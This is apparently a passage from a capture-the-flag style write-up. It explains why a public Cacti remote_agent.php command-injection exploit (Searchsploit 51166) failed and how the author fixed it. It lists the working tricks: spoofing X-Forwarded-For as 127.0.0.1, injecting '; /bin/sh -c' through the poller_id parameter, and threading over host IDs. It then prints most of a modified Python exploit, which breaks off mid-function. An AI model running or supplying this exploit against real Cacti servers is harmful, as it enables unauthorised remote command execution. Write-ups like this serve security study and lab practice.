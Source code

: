 ![ssh as root](ssh%20as%20root.png)

![ssh as root 2](ssh%20as%20root%202.png)

:hugs: Ah yes, so roomy and comfortable...

![ssh as root 3](ssh%20as%20root%203.png)



### Postmortem: RCE from Searchsploit

So why was it that `51166.py` did not work as RCE? I've made series of modifications to the original script, and finally got it to work. With each step, I got closer and closer to the PoC code from @saspect.

Below is a summary of the changes I made. Although my eventual success with modifying the script could have been due to any number of the following changes, the final change was using the `params` property of the `httpx.Client` object.

- Corrected the `X-Forwarded-For` header to always be `127.0.0.1` instead of the target address (the address of Cacti)
- Added threading (one thread for each `host_id`) to make it go really fast.
- The `local_data_ids[]` parameter actual *accepts a list* structure. Instead of using a single number as this parameter, I passed it a 100-element list of `range(0,100)`.
- Made the RCE command an argument to the program, instead of a hardcoded reverse shell.
- Changed the way that `poller_id` contains the payload: swapped out the '1' for a semicolon: `'; /bin/sh -c "{cmd}"'`
- Used the `params` property of the `httpx.Client` object, instead of embedding the params into the URL.

Here is the code I ended up with, `51166-new.py`:

```python
#!/usr/bin/env python3

import random
import httpx, urllib
from threading import Thread

class Exploit:
    def __init__(self, url, proxy=None, rs_host="",rs_port=""):
        self.url = url
        self.session = httpx.Client(
            headers={"User-Agent": self.random_user_agent()},
            verify=False,
            proxies=proxy
        )
        self.rs_host = rs_host
        self.rs_port = rs_port

    def exploit(self, host_id, timeout_time):
        local_cacti_ip  = self.url.split("//")[1].split("/")[0]
        headers = {
            'X-Forwarded-For': '127.0.0.1'
        }
        payload = f'; /bin/sh -c "{cmd}"'
        local_data_ids = [x for x in range(0, 100)]
        params = {
            'action': 'polldata', 
            'host_id': host_id, 
            'poller_id': payload, 
            'local_data_ids[]': local_data_ids
        }
        url = f"{self.url}/remote_agent.php"
        try:
```